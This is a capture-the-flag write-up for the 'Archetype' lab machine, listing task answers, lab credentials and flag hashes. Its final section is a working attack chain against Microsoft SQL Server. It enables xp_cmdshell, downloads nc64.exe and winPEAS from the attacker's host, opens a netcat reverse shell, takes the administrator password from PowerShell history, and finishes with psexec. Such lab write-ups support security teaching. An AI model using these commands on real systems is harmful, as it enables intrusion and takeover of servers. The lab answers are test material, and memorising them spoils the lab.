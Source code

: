 # Archetype

> Task 1 - Which TCP port is hosting a database server? 

```
1443
```

> Task 2 -  What is the name of the non-Administrative share available over SMB? 

```
backups
```

> Task 3 -  What is the password identified in the file on the SMB share? 

```
M3g4c0rp123
```

> Task 4 -  What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server? 

```
mssqlclient.py
```

> Task 5 - What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell? 

```
xp_cmdshell
```

> Task 6 - What script can be used in order to search possible paths to escalate privileges on Windows hosts? 

```
winPEAS
```

> Task 7 -  What file contains the administrator's password? 

```
ConsoleHost_history.txt
```

> Submit user flag

```
3e7b102e78218e935bf3f4951fec21a3
```

> Submit root flag

```
python3 mssqlclient.py ARCHETYPE/sql_svc@$IP -windows-auth
sql
  EXEC sp_configure 'show advanced options', 1;
  RECONFIGURE;
  sp_configure;
  EXEC sp_configure 'xp_cmdshell', 1;
  RECONFIGURE;
  EXEC xp_cmdshell 'net user';
  xp_cmdshell "whoami"
python webserver & reverse shell
  python3 -m http.server
  nc -nvlp 9999
  SQL
    xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://$MY_IP:8000/nc64.exe -outfile nc64.exe"
    xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://$MY_IP:8000/winPEASx64.exe -outfile winPEASx64.exe"
    xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe $MY_IP 9999"
in reverse shell
  cd Dekstop
  more user.txt
  .\winPEASx64.exe
  more C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    Administrator:MEGACORP_4dm1n!!
python3 psexec.py administrator@$IP
  under Desktop\root.txt
```

```
b91ccec3305e98240082d4474b848528
```

